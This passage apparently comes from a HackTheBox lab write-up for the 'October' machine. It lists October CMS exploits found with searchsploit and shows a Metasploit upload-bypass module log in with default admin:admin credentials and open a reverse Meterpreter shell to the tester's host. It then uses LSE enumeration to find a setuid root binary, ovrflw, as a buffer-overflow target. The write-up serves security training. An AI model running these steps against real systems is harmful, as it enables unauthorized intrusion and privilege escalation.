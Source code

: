 ```bash
October CMS < 1.0.431 - Cross-Site Scripting                                    | php/webapps/44144.txt
October CMS User Plugin 1.4.5 - Persistent Cross-Site Scripting                 | php/webapps/44546.txt
OctoberCMS 1.0.425 (Build 425) - Cross-Site Scripting                           | php/webapps/42978.txt
OctoberCMS 1.0.426 (Build 426) - Cross-Site Request Forgery                     | php/webapps/43106.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

I go ahead and use the `exploit/multi/http/october_upload_bypass_exec` module in Metasploit to get a user shell as the `www-data` user.

```bash
msf5 exploit(multi/http/october_upload_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.14.41:4444 
[+] Authentication successful: admin:admin
[*] Sending stage (38288 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.41:4444 -> 10.10.10.16:49062) at 2020-06-28 12:16:13 -0400
[+] Deleted pXNLiuNzD.php5

meterpreter >
```

I can get the user flag.
From here I upload [Linux Smart Enumeration (LSE)][lse] to the target and execute it to enumerate the system.

```bash
www-data@october:/tmp$ ./lse.sh -c -i -l 1 | less
```

The most interesting item is that a setuid binary exists on the system that `www-data` can execute.

```bash
[!] fst020 Uncommon setuid binaries........................................ yes!
:
---
:        
/usr/local/bin/ovrflw
```

LSE is a great enumeration script.
A setuid binary is an executable with the `SUID` bit set. This means that the file is executed with the privileges of the file owner, regardless of the user that executes the file.
Given that `root` owns the `/usr/local/bin/ovrflw` file, this means that if I can get the `ovrflw` binary to somehow execute a shell, the shell will spawn as the root user.

Given the name of the file, I assume that this will require a buffer overflow.
Indeed, I can verify that an overflow vulnerability exists by passing a large input.


[birthday paradox]: https://en.wikipedia.org/wiki/Birthday_problem
[gdb]: https://www.gnu.org/software/gdb/
[hackthebox]: https://www.hackthebox.eu
[htb frolic]: https://blog.artis3nal.com/2020-06-28-htb-frolic-msf/
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[october cms]: https://octobercms.com/
[peda]: https://github.com/longld/peda
[return-to-libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit
[birthday paradox calculation]: /assets/img/htb/october/birthday-paradox.png
[checksec]: /assets/img/htb/october/checksec.png
[gdb peda]: /assets/img/htb/october/gdb-with-peda.png
[overflow root shell]: /assets/img/htb/october/buffer-overflow-brute.png